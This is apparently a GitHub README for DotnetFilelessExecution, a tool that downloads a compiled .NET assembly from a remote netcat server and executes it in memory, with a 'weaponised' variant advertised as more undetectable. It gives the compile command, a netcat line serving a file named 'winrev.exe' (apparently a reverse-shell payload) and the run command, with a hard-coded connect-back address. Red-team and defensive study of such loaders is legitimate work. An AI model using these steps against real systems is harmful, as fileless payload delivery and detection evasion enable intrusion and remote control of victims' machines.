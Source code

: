 # DotnetFilelessExecution

## Overview

Weaponised DFE is the advanced implementation of DotnetFilelessExecution, which does the same thing, while is more undetectable.

## Compilation

I have used cross compilation but of course, Visual Studio can be used.

```bash
mcs -out:DotnetFilelessExecution.exe DotnetFilelessExecution.cs
```

## Usage

- Start a simple Netcat file sharing server, serving the .NET compiled assembly which you want to execute.

```bash
nc -nvlp 80 < winrev.exe
```

- Use DotnetFilelessExecution to execute it remotely in memory

```bash
.\DotnetFilelessExecution.exe
```

## Note
For demonstration purposes, the connect back address is hard coded inside the program, which can be changed as needed.

## Disclaimer
This project is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.

